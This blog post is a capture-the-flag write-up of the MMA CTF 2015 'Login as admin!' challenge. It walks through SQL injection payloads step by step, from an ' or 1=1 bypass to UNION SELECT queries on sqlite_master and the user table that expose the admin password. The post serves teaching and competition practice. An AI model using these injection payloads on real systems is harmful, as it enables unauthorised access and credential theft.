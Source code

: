 ```yaml
---
title:  "MMA CTF Writeup - Login as admin!"
date:   2015-09-06 20:00:00
tags:   ctf, writeup
---
```


This weekend, [Kernel Sanders](http://ufsit.org) participated in [MMA CTF](https://uecmma.github.io/mmactf/)! Unfortunately, since I had homework and the beginnings of the flu, I was only to participate for a little bit, but I did have the opportunity to solve a challenge. "login as admin!" was worth 30pts and put Kernel Sanders in 42nd place (at the time).

![Challenge](assets/images/mmactf/challenge.png)

Going to the challenge presents us with a login screen:
![Login screen](assets/images/mmactf/login-screen.png)

Using the test login, I log in using the test account and find that it works!
![Test user](assets/images/mmactf/test-user.png)

Let's log out and just try to log in as the admin with no password. This gives the following error:
![Login error](assets/images/mmactf/login-error.png)

Well, I guess they're actually checking the login information... let's see if I can log in with a simple SQL injection. I use 

```sql
' or 1=1; --
```
as the password and, boom! I'm in:
![Admin user](assets/images/mmactf/admin-user.png)

Wait, where's the password?! Boo I guess we better get the password from the database. Let's hope they're not hashing it! But, seeing as they've left the door open for SQL injection, I'm sure they're not _that_ competent.

Anyway, I go ahead and try to use `UNION` to exchange the username for the password:

```sql
' UNION SELECT * FROM users; --
```
![Table error](assets/images/mmactf/table-error.png)

There's... no users table? Uh, ok. They have to be pulling this information from somewhere. Let's see if we can get a list of the tables:

```sql
' UNION SELECT * FROM information_schema.tables; --
```

However, this gives me the following error: 

```
no such table: information_schema.tables
```

Guess they're not using MySQL... how about sqlite?

```sql
' UNION SELECT name FROM sqlite_master WHERE type = "table"; --
```

Now this gives me the following error:

```
SELECTs to the left and right of UNION do not have the same number of result columns
```

Well, ok. I guess they must be fetching more than one column. Let's add `NULL`s until it works.

```sql
' UNION SELECT name, NULL FROM sqlite_master WHERE type = "table"; --
``` 

Now it works! I get the following output:

```
You are user user.
```

Apparently, they named the table 'user' instead of 'users'. Slight hiccup, but let's continue on.

```sql
' UNION SELECT * FROM user WHERE username='admin'; --
```

This gives the following error:

```
no such column: username
```

Ugh. Ok, let's try 'user' instead of 'username':

```sql
' UNION SELECT * FROM user WHERE user='admin'; --
```

Boom! I'm in again as the admin user. So, now I know they have a 'user' table with an attribute of 'user' and (most likely) 'password'. Let's try to SELECT the user and password:

```sql
' UNION SELECT user, password FROM user WHERE user='admin'; --
```

This logs me in as the admin user again which means that 'password' is called 'password'.

What else to try? Well, why not switch 'user' and 'password'?

```sql
' UNION SELECT password, user FROM user WHERE user='admin'; --
```

Booyah! I'm able to log in and see the following:
![Key!](assets/images/mmactf/key.png)

Success! Entering `MMA{cats_alice_band}` as the key gives Kernel Sanders +30 points!
